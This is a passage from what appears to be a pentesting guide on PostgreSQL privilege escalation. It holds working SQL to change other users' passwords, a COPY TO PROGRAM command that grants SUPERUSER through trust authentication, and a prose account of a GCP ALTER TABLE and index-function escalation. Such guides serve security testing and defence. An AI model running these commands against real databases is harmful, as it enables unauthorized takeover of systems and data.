 #### Modify Password

Users with this role can also **change** the **passwords** of other **non-superusers**:

```sql
#Change password
ALTER USER user_name WITH PASSWORD 'new_password';
```

#### Privesc to SUPERUSER

It's pretty common to find that **local users can login in PostgreSQL without providing any password**. Therefore, once you have gathered **permissions to execute code** you can abuse these permissions to gran you **`SUPERUSER`** role:

```sql
COPY (select '') to PROGRAM 'psql -U <super_user> -c "ALTER USER <your_username> WITH SUPERUSER;"';
```

> [!TIP]
> This is usually possible because of the following lines in the **`pg_hba.conf`** file:
>
> ```bash
> # "local" is for Unix domain socket connections only
> local   all             all                                     trust
> # IPv4 local connections:
> host    all             all             127.0.0.1/32            trust
> # IPv6 local connections:
> host    all             all             ::1/128                 trust
> ```

### **ALTER TABLE privesc**

In [**this writeup**](https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities) is explained how it was possible to **privesc** in Postgres GCP abusing ALTER TABLE privilege that was granted to the user.

When you try to **make another user owner of a table** you should get an **error** preventing it, but apparently GCP gave that **option to the not-superuser postgres user** in GCP:

<figure><img src="../images/image (537).png" alt=""><figcaption></figcaption></figure>

Joining this idea with the fact that when the **INSERT/UPDATE/**[**ANALYZE**](https://www.postgresql.org/docs/13/sql-analyze.html) commands are executed on a **table with an index function**, the **function** is **called** as part of the command with the **table** **owner’s permissions**. It's possible to create an index with a function and give owner permissions to a **super user** over that table, and then run ANALYZE over the table with the malicious function that will be able to execute commands because it's using the privileges of the owner.
